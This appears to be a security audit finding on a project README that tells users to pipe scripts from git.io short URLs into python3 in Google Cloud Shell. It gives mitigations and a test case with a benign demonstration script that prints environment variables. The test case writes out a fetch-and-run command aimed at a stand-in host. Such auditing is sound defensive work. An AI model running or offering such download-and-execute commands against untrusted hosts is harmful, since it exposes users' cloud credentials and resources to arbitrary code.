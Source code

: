 - Vulnerability Name: Short URL Redirection leading to Arbitrary Code Execution
- Description:
    1. The project documentation in `README.md` instructs users to copy and paste commands into Google Cloud Shell to execute scripts.
    2. These commands use `git.io` short URLs to fetch the Python scripts. For example, for GWMME, the command is `python3 <(curl -s -S -L https://git.io/gwmme-create-service-account)`.
    3. An attacker could compromise the `git.io` short URLs (e.g., `https://git.io/gwmme-create-service-account`, `https://git.io/gwm-create-service-account`, `https://git.io/password-sync-create-service-account`). `git.io` is a URL shortening service managed by GitHub, but vulnerabilities or compromises are possible even for reputable services.
    4. If a short URL is compromised, the attacker can redirect it to a malicious Python script hosted at a different URL.
    5. When a user copies the command from the documentation and executes it in Google Cloud Shell, `curl` will follow the compromised short URL and download the malicious script.
    6. The output of `curl` (the malicious script) is then piped directly to `python3` for execution within the user's Google Cloud Shell environment.
    7. This leads to arbitrary code execution in the context of the user's Cloud Shell, with the permissions and access associated with their Google Cloud account and active Cloud Shell session.
- Impact:
    - Critical. Successful exploitation allows for arbitrary code execution within the victim's Google Cloud Shell environment.
    - An attacker could potentially gain full control over the victim's Google Cloud project, including access to resources, data, and services.
    - Depending on the permissions of the user and the attacker's script, the attacker could:
        - Steal sensitive data, including service account keys, OAuth tokens, and other credentials stored in the Cloud Shell environment or accessible through Google Cloud APIs.
        - Modify or delete Google Cloud resources.
        - Pivot to other Google Cloud services or on-premises networks connected to the Google Cloud environment.
        - Impersonate the user or service accounts to perform actions within Google Workspace or other connected systems.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - None. The project currently relies on the security of the `git.io` URL shortening service and provides no mechanisms to verify the integrity or authenticity of the scripts being downloaded and executed.
- Missing Mitigations:
    - **Remove Short URLs:** Replace `git.io` short URLs in the documentation with direct, full URLs to the raw Python scripts hosted in the GitHub repository. This makes it more transparent where the script is being downloaded from and reduces the risk of redirection through a compromised URL shortening service. Example: `https://raw.githubusercontent.com/google/create-service-account/main/code/gwmme_create_service_account.py`
    - **Implement Script Verification:** Add a mechanism to verify the integrity and authenticity of the downloaded scripts. This could be done by:
        - Providing checksums (e.g., SHA256) of the scripts in the documentation, allowing users to manually verify the downloaded script before execution.
        - Digitally signing the scripts (e.g., using GPG) and providing instructions for users to verify the signature before execution.
    - **Documentation Warning:** Include a clear warning in the documentation about the security risks of executing scripts downloaded from the internet, even from seemingly reputable sources. Advise users to:
        - Carefully review the script content before executing it.
        - Download the script and inspect it locally instead of directly piping it to `python3`.
        - Only use the official source repository and avoid using potentially modified or untrusted copies of the scripts.
- Preconditions:
    - An attacker must successfully compromise the `git.io` short URLs used in the project documentation.
    - A user must follow the official documentation and copy and paste the provided command into their Google Cloud Shell environment without verifying the destination URL or script content.
- Source Code Analysis:
    - The vulnerability is not directly within the Python scripts (`gwmme_create_service_account.py`, `gwm_create_service_account.py`, `password_sync_create_service_account.py`) themselves.
    - The vulnerability stems from the project's documentation (`README.md`) and the practice of using `git.io` short URLs to distribute these scripts.
    - In `README.md`, under the "Usage" sections for each tool (GWMME, GWM, Password Sync), the recommended commands are structured as:
      ```markdown
      python3 <(curl -s -S -L https://git.io/[SHORT_URL])
      ```
    - This command structure does the following:
        1. `curl -s -S -L https://git.io/[SHORT_URL]`: This part uses `curl` to fetch content from the `git.io` short URL.
            - `-s`:  Silent mode, don't show progress meter or error messages.
            - `-S`: Show error messages if they occur.
            - `-L`: Follow redirects. This is crucial as `git.io` URLs redirect to the actual raw script URLs on GitHub.
        2. `<(...)`: This is process substitution in Bash. It takes the output of the command inside the parentheses (in this case, the output of `curl`) and makes it available as a file for the command outside (in this case, `python3`).
        3. `python3 <(...)`: This executes the `python3` interpreter, and the `<(...)` part effectively feeds the downloaded script as standard input to the `python3` interpreter, causing it to execute the script directly from the internet without saving it to disk first.
    - **Vulnerable Flow Visualization:**

    ```mermaid
    graph LR
        A[User reads README.md] --> B{Copies command with git.io URL};
        B --> C[Pastes command in Cloud Shell];
        C --> D{Cloud Shell executes command};
        D --> E{curl -s -S -L git.io/[SHORT_URL]};
        E --> F{Compromised git.io URL};
        F -- Redirects to malicious script --> G[Malicious Script hosted by Attacker];
        G --> H{curl downloads malicious script};
        H --> I{python3 <(...) executes malicious script};
        I --> J[Arbitrary code execution in Cloud Shell];
    ```

- Security Test Case:
    1. **Set up a malicious Python script:** Create a file named `malicious_script.py` with the following content:
        ```python
        #!/usr/bin/python3
        import os
        import sys

        print("WARNING: You are executing a malicious script!")
        print("This is a security test to demonstrate a vulnerability.")
        print("Current user:", os.getlogin())
        print("Current directory:", os.getcwd())
        print("Environment variables (first 5):")
        for key, value in list(os.environ.items())[:5]:
            print(f"  {key}={value}")

        # Optionally, attempt to perform a harmless but noticeable action
        # to further demonstrate code execution, e.g., create a file.
        try:
            with open("ATTACK_DEMO.txt", "w") as f:
                f.write("This file was created by a malicious script as part of a security test.")
            print("File 'ATTACK_DEMO.txt' created.")
        except Exception as e:
            print(f"Failed to create file: {e}")

        sys.exit(1) # Exit with an error code to be noticeable
        ```
    2. **Host the malicious script:** Make `malicious_script.py` accessible via a public URL. You can use a simple HTTP server (e.g., using `python -m http.server` and `ngrok` to expose it publicly) or a service like GitHub Gist (making sure to get the raw URL). Let's assume the malicious script is now accessible at `https://example.com/malicious_script.py`.
    3. **"Compromise" the short URL:**  Since we do not have control over `git.io`, we will simulate the compromise. For testing purposes, we will manually use the malicious URL instead of the `git.io` URL in the command. In a real attack scenario, an attacker would need to find a way to actually compromise the `git.io` redirection.
    4. **Follow the documentation steps for GWMME:** Refer to the "Google Workspace Migration for Microsoft Exchange (GWMME)" section in `README.md`.
    5. **Open Google Cloud Shell:** Open a new Google Cloud Shell session in your Google Cloud project.
    6. **Execute the modified command:** Instead of copying the command from the documentation, use a modified command that points to your malicious script URL:
        ```bash
        python3 <(curl -s -S -L https://example.com/malicious_script.py)
        ```
        Replace `https://example.com/malicious_script.py` with the actual URL where you hosted your `malicious_script.py`.
    7. **Observe the output:** Execute the command in Cloud Shell. Observe the output in the Cloud Shell terminal.
    8. **Verify successful execution of malicious script:**
        - You should see the warning message "WARNING: You are executing a malicious script!".
        - Information about the current user, directory, and environment variables should be printed, confirming the script executed in your Cloud Shell environment.
        - If the script successfully created the `ATTACK_DEMO.txt` file, you should see the "File 'ATTACK_DEMO.txt' created." message. You can then verify the file's existence using `ls`.
        - The command should exit with a non-zero exit code (1 in this case), which is also an indicator that the malicious script was executed as intended (as we explicitly set `sys.exit(1)` in the malicious script).

    This test case demonstrates that by controlling the URL from which the script is downloaded, an attacker can indeed execute arbitrary code within the user's Google Cloud Shell environment by exploiting the command structure provided in the documentation.